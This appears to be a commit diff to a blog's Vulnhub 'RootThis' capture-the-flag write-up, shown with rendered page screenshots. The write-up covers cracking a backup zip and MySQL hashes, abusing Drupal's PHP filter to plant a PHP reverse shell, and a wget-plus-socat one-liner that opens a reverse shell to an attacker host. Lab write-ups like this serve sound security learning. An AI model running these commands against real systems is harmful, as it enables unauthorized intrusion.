

Before and after one commit to W3ndige/rootnetsec.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1311 px of the page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
Vulnhub - RootThis fixes

````diff
--- a/_posts/2019-02-26-vulnhub-rootthis.md
+++ b/_posts/2019-02-26-vulnhub-rootthis.md
@@ -7,7 +7,7 @@
 category: Vulnhub
 ---
 
-Today we're going to come back to some Vulnhub machines as there were many new added latelty. Firstly, we're going to play with machine called **RootThis** made by **Fred Wemeijer**.
+Today we're going to come back to some Vulnhub machines as there were many new added latelty. Firstly, we're going to play with machine called **RootThis**. Fairly saying it's a beginner level challenge with some general knowledge required.
 
 * Author: [Fred Wemeijer](https://www.vulnhub.com/author/fred-wemeijer,595/)
 * Download: [https://www.vulnhub.com/entry/rootthis-1,272/](https://www.vulnhub.com/entry/rootthis-1,272/)
@@ -41,7 +41,7 @@
 Nmap done: 1 IP address (1 host up) scanned in 9.51 seconds
 ```
 
-We can see that only `http` service is running on port `80`. I decided to run a full port scan with `-p-` option to see if there are any hidden serivices apart from this, but no luck. On the other hand, we only have one service to concetrate on.
+We can see that only `http` service is running on port `80`. I decided to run a full port scan with `-p-` option to see if there are any hidden serivices apart from this, but with no hits. On the other hand, we only have one service to concetrate on.
 
 ```html
 root@kali:~# curl 10.0.0.7
@@ -82,7 +82,7 @@
 + http://10.0.0.7/index.html (CODE:200|SIZE:10701)
 ```
 
-It has found two interesting places - `backup` file and `drupal` directory. And by viewing `CHANGELOG.txt` we can see that's the version that is not vulnerable to `Drupalgeddon` attacks.
+It has found two interesting places - `backup` file and `drupal` directory. Firstly I've decided to check `drupal` and by viewing `CHANGELOG.txt` we can see that's the version that is not vulnerable to `drupalgeddon` attacks.
 
 ```text
 Drupal 7.61, 2018-11-07
@@ -136,7 +136,7 @@
 -rw-r--r-- 1 root root 270103 Dec  3 02:26 backup
 ```
 
-It's a zip archive, but unfortunately password protected.
+It's a zip archive, but unfortunately it's password protected.
 
 ```bash
 root@kali:~/vulnhub/rootme# unzip backup
@@ -145,7 +145,7 @@
    skipping: dump.sql                incorrect password
 ```
 
-As I have no clues about the password in other parts of the website, I've decided to spin up `frackzip` to crack the password with `rockyou.txt` wordlist.
+As there are no clues about the passwords in the `drupal` I've decided to spin up `frackzip` to crack it using `rockyou.txt` wordlist.
 
 ```bash
 root@kali:~/vulnhub/rootme# fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt backup
@@ -170,7 +170,7 @@
 -rw-r--r-- 1 root root 1868829 Dec  3 02:12 dump.sql
 ```
 
-SQL dump? Probably for the whole Drupal installation. Let's see, if we can find the password to the service within this file.
+SQL dump? Probably for the whole Drupal installation and may contain password for any users registred in this service. Let's take a look.
 
 ```sql
 --
@@ -191,17 +191,19 @@
 9AF2F8E8C08165DC70FA4B4F8D40EA6EC84CB6D2	MySQL4.1+	moranguita
 ```
 
-Both of them are here. After trying to log into Drupal, we can see that only `webman` account is valid, so we'll use it for now.
+Both of them were cracked. After trying to log into Drupal, we can see that only the `webman` account is valid, so we'll use it for now.
 
-Our plan for now would be to firstly, activate the Drupal `php_filter` module that will allow us to enter `PHP` code inside articles or pages.
+After gaining access to Drupal, we have to find a plan to get some kind of reverse shell in the system. At the back of my mind I had a trick using `PHP filter` module, that will allow us to enter any `PHP` code inside article or pages.
+
+Firstly, we would have to activate this module inside `modules`.
 
 ![PHP Filter](/img/rootthis/php-filter-module.png){:class="img-responsive center-block"}
 
-Now, in configuration we have to add the posibility to use this module by any user in the Drupal service.
+After that we have to make sure that in the configuration panel, all users have the privileges to evaluate `PHP` code.
 
 ![PHP Filter Configuration](/img/rootthis/php-filter-configuration.png){:class="img-responsive center-block"}
 
-And after all of this, let's create a new page with `PHP Reverse Shell from Pentest Monkey`.
+And after all of this, let's create a new page with [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell).
 
 ![Reverse Shell](/img/rootthis/php-reverse-shell.png){:class="img-responsive center-block"}
 
@@ -220,7 +222,7 @@
 $
 ```
 
-Onto the antoher enumartion part! First thing I've found was note in `user` home directory.
+And we're in the system. IN this part of enumaration, we have to find a way to escalate our privilages. During usual file reconnaissance, I've noticed a file in `/home/user/` directory.
 
 ```text
 $ cd /home
@@ -248,7 +250,7 @@
 user
 ```
 
-That's a great hint, but we do not have possibility to use `su` for now, we have to upgrade our shell. Unfortunately simply doing `/bin/bash -i` did not help.
+That's a great hint, but we do not have possibility to use `su` for now. In order to get it working, we have to upgrade our shell. Unfortunately simply doing `/bin/bash -i` did not help.
 
 ```text
 $ /bin/bash -i
@@ -256,16 +258,16 @@
 bash: no job control in this shell
 ```
 
-Luckily, I've found [this](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) blog post, showinng method of upgrading our shell via `socat` tool. Let's follow instructions.
+Luckily, I've found [this](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) blog post, showing method of upgrading our shell via `socat` tool.
 
-On our victim:
+On our victim.
 
 ```text
 www-data@RootThis:/home/user$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.5:4444
 <li',pty,stderr,setsid,sigint,sane tcp:10.0.0.5:4444
 ```
 
-And on Kali machine:
+And on Kali machine.
 
 ```text
 root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:4444
````
